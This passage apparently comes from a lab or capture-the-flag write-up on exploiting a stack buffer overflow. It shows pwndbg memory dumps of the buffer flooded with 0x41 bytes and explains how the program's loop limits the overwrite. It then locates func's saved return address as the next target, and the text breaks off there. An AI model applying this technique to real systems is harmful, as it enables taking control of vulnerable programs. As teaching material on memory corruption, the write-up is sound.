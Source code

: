 Now looking at the stack pointer, we see that we have successfully flooded memory past the local_8 address\:

{% highlight bash %}
pwndbg> x/40x $esp  
0xffffd024\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd034\:     0x41414141      0xffffd2e0      0x41414141      0x08044141  
0xffffd044\:     0xffffd2e0      0x00000000      0xf7ddfe46      0x00000002
{% endhighlight %}

Incidentally, the reason why we were only able to overwrite other areas of memory only after including the address of the buffer in the payload, is because of the for loop within the program. When the address to local_8 is overwritten, the for loop is false and data stops getting written to local_1c.

##### Overwriting func Return Address

It is important to note that in the stack pointer, the return address of func is present shortly after the buffer\:

{% highlight bash %}
pwndbg> x/40x $esp                                                                                                                                                           0xffffd034\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffd044\:     0x41414141      0xffffd2ea      0xffffd058      0x080484a7                                                                                                   0xffffd054\:     0xffffd2ea      0x00000000      0xf7ddfe46      0x00000002                                                                                                   0xffffd064\:     0xffffd104      0xffffd110      0xffffd094      0xffffd0a4                                                                                                   0xffffd074\:     0xf7ffdb40      0xf7fcb410      0xf7fa6000      0x00000001                                                                                                   0xffffd084\:     0x00000000      0xffffd0e8      0x00000000      0xf7ffd000                                                                                                   0xffffd094\:     0x00000000      0xf7fa6000      0xf7fa6000      0x00000000                                                                                                   0xffffd0a4\:     0xe752d891      0xa309e681      0x00000000      0x00000000           0xffffd0b4\:     0x00000000      0x00000002      0x08048320      0x00000000                                                                                                   0xffffd0c4\:     0xf7fe9740      0xf7fe4080      0xf7ffd000      0x00000002                                                                                                                                                                                                                                                                                                                                                                                       
{% endhighlight %}


More specifically, it is at 0x080484a7.

{% highlight bash %}
